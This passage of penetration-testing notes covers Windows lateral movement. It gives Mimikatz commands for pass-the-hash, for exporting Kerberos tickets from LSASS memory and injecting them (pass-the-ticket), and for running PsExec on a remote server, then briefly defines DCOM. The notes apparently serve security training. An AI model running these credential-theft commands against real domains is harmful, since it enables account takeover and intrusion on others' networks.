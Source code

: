 ```
# Start a powershell session in the context of TARGET_USER
mimikatz # sekurlsa::pth /user:<TARGET_USER> /domain:<TARGET_DOMAIN> /ntlm:<NTLM_HASH> /run:<CMD>

# Authenticate to a service to get a TGT
C:\> net use \\<SERVER>
C:\> klist
```

THEN use `PsExec` from `SysInternals` suite.

```
.\PsExec.exe \\<SERVER> calc
```

**Don't forget to `klist purge` after testing.**


## Pass the Ticket

This is about reusing TGS tickets. A TGS ticket can be used from any part of the network, whereas TGT can only be used from the client IP specified. TGS can only be used for the specified service though.

Does not require admin rights if TGS belongs to the current user.

### Execution

WINDOWS: Mimikatz

```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export

C:\> dir *.kirbi

mimikatz # kerberos::ptt <TGS_KIRBI_FILE>

C:\> klist
```

Line-by-line, these commands:
1. Enable `SeDebugPrivilege` program debug privileges.
2. Export all tickets to current directory by parsing LSASS process memory space.
3. View all ticket `.kirbi` files. TGS tickets will have `@cifs` whereas TGTs have `@krbtgt`.
4. Inject TGS ticket into memory.
5. View tickets in memory.


## DCOM

COM = Component Object Model = system for creating software components that interact with each other, single-process or cross-process.

DCOM = Distributed Component Object Model = extends above for interaction between multiple computers on a network.
